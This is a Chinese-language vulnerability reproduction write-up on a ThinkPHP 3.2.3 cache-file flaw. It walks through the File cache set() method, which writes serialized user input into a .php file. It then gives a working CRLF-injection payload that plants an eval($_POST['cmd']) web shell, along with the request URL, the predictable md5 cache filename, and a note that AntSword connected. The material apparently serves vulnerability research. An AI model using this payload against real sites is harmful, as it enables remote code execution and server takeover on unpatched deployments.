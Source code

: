 # Thinkphp 3.2.3 缓存漏洞

### 一、漏洞简介

### 二、漏洞影响

Thinkphp 3.2.3

### 三、复现过程

漏洞分析

直接跟进到/Library/Think/Cache/File.class.php文件，看到set方法：


```php
/**
     * 写入缓存
     * @access public
     * @param string $name 缓存变量名
     * @param mixed $value  存储数据
     * @param int $expire  有效时间 0为永久
     * @return boolean
     */
    public function set($name,$value,$expire=null) {
        N('cache_write',1);
        if(is_null($expire)) {
            $expire =  $this->options['expire'];
        }
        $filename   =   $this->filename($name);
        $data   =   serialize($value);
        if( C('DATA_CACHE_COMPRESS') && function_exists('gzcompress')) {
            //数据压缩
            $data   =   gzcompress($data,3);
        }
        if(C('DATA_CACHE_CHECK')) {//开启数据校验
            $check  =  md5($data);
        }else {
            $check  =  '';
        }
        $data    = "<?php\n//".sprintf('%012d',$expire).$check.$data."\n?>";
        //data参数经过序列化，直接被写到文件内。

        $result  =   file_put_contents($filename,$data);
        if($result) {
            if($this->options['length']>0) {
                // 记录缓存队列
                $this->queue($name);
            }
            clearstatcache();
            return true;
        }else {
            return false;
        }
    }
```

写一个调用缓存函数的的方法，运行一下。看看写进去什么


```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {

    public function index(){
        $a=I('post.a3');
        S('name',$a);
    }
}
```

在set方法下断点，访问 `http://url/index.php/Home/Index/index.html` ，post数据：a3=aaaa

![](images/15893452895122.png)


可以看到$data参数经过序列化，直接写入php后缀的文件。F9运行可以看到，在Application/Runtime/Temp/文件夹下生成了php文件。

![](images/15893452958658.png)


写入到文件被行注释了。

$data参数未过滤%0d%0a可以用换行来绕过行注释，尝试post数据：


```
a3=%0d%0aeval($_POST['cmd']);%0d%0a//
```

![](images/15893453067148.png)


之后用蚁剑连接成功

![](images/15893453167113.png)


总结

Thinkphp3.2.3

漏洞文件位置(一般审计得出)


```
http://url/index.php/Home/Index/get?id=%0d%0aeval($_POST['cmd']);%0d%0a//
```

缓存文件为缓存名的md5值，这里采用md5（name）=b068931cc450442b63f5b3d276ea4297


```
http://url/Application/Runtime/Temp/b068931cc450442b63f5b3d276ea4297.php
```

之后蚁剑连接。

参考链接

https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/
